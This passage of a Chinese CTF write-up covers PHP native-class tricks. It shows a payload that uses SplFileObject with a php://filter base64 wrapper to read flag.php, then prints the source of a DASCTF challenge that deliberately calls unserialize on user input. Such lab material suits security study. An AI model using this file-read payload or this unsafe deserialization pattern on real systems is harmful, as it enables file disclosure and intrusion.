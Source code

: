 之后可以进行传参了，但是根据源码，没有可以进行 RCE 的点，这个时候就可以利用 PHP 的原生类了

利用**SplFileObject**类结合 php 伪协议读取 flag

```plain
a=SplFileObject&b=php://filter/read=convert.base64-encode/resource=flag.php
```

**\[2021 MAR DASCTF 明御攻防赛\]ez\_serialize**

```plain
<?php
error_reporting(0);
highlight_file(__FILE__);

class A{
    public $class;
    public $para;
    public $check;
    public function __construct()
    {
        $this->class = "B";
        $this->para = "ctfer";
        echo new  $this->class ($this->para);
    }
    public function __wakeup()
    {
        $this->check = new C;
        if($this->check->vaild($this->para) && $this->check->vaild($this->class)) {
            echo new  $this->class ($this->para);
        }
        else
            die('bad hacker~');
    }

}
class B{
    var $a;
    public function __construct($a)
    {
        $this->a = $a;
        echo ("hello ".$this->a);
    }
}
class C{

    function vaild($code){
        $pattern = '/[!|@|#|$|%|^|&|*|=|\'|"|:|;|?]/i';
        if (preg_match($pattern, $code)){
            return false;
        }
        else
            return true;
    }
}


if(isset($_GET['pop'])){
    unserialize($_GET['pop']);
}
else{
    $a=new A;

}
```
